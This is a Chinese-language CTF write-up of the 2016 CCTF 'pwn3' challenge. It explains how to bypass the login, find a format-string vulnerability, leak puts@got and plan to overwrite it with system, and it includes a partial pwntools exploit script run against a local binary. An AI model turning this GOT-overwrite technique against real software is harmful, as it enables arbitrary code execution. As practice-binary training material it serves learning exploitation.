 - - - 格式化字符串任意地址写

 2016 CCTF 中的 [pwn3](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/fmtstr/2016-CCTF-pwn3) 

![image.png](https://cdn.nlark.com/yuque/0/2020/png/403807/1594809356279-836c6653-b2b1-4cbf-826d-895ea35cc1cc.png)

![image.png](https://cdn.nlark.com/yuque/0/2020/png/403807/1594810273640-53cec482-74f7-447d-b300-f2aebb71d2cf.png)

![image.png](https://cdn.nlark.com/yuque/0/2020/png/403807/1594810295089-0a789900-4d7a-456f-9b78-1d0de4cd5de9.png)

![image.png](https://cdn.nlark.com/yuque/0/2020/png/403807/1594810303299-05d6b2b5-afbe-413c-ba7a-50eb6902bc21.png)

先将输入+1后与sysbdmin比较

所以是rxraclhm

![image.png](https://cdn.nlark.com/yuque/0/2020/png/403807/1594810284001-25d91cc6-d527-46b0-8ab8-28f07d79818b.png)

![image.png](https://cdn.nlark.com/yuque/0/2020/png/403807/1594810392384-11a98c05-c09b-4ad4-a4cc-ed452ee56326.png)

三个功能：

![image.png](https://cdn.nlark.com/yuque/0/2020/png/403807/1594810412452-01bdd2d7-bdc0-49d4-b8db-4144e4297e44.png)

![image.png](https://cdn.nlark.com/yuque/0/2020/png/403807/1594810421209-698114f5-65bb-4816-bb19-0dc127854745.png)

![image.png](https://cdn.nlark.com/yuque/0/2020/png/403807/1594810438519-7e75697a-eb3d-457d-a58e-1f61413a492d.png)

在get里有格式化字符串漏洞

既然有了格式化字符串漏洞，那么我们可以确定如下的利用思路

- 绕过密码
- 确定格式化字符串参数偏移
- 利用 put@got 获取 put 函数地址，进而获取对应的 libc.so 的版本，进而获取对应 system 函数地址。
- 修改 puts@got 的内容为 system 的地址。
- 当程序再次执行 puts 函数的时候，其实执行的是 system 函数。

![image.png](https://cdn.nlark.com/yuque/0/2020/png/403807/1594810730121-f7e00a90-3571-420c-a83c-53feb4f46a3a.png)

调试下断点

![image.png](https://cdn.nlark.com/yuque/0/2020/png/403807/1594810900911-986e87f4-80e5-4a01-8386-dbcf5a12b66a.png)

偏移为7

```py
from pwn import *
from LibcSearcher import LibcSearcher
sh = process('./pwn3')
pwn3 = ELF('./pwn3')
#首先要登陆，用户名是:rxraclhm
sh.recvuntil('Name (ftp.hacker.server:Rainism):')
sh.sendline('rxraclhm')
#使用put(put_file),先写进去
puts_got = pwn3.got['puts']
sh.sendline('put')
sh.recvuntil('please enter the name of the file you want to upload:')
sh.sendline('1111')
sh.recvuntil('then, enter the content:')
content='%8$s' + p32(puts_got)
sh.sendline(content)
#通过get(get_file)执行格式化字符串漏洞,读出put函数的地址
sh.sendline('get')
sh.recvuntil('enter the file name you want to get:')
sh.sendline('1111')
```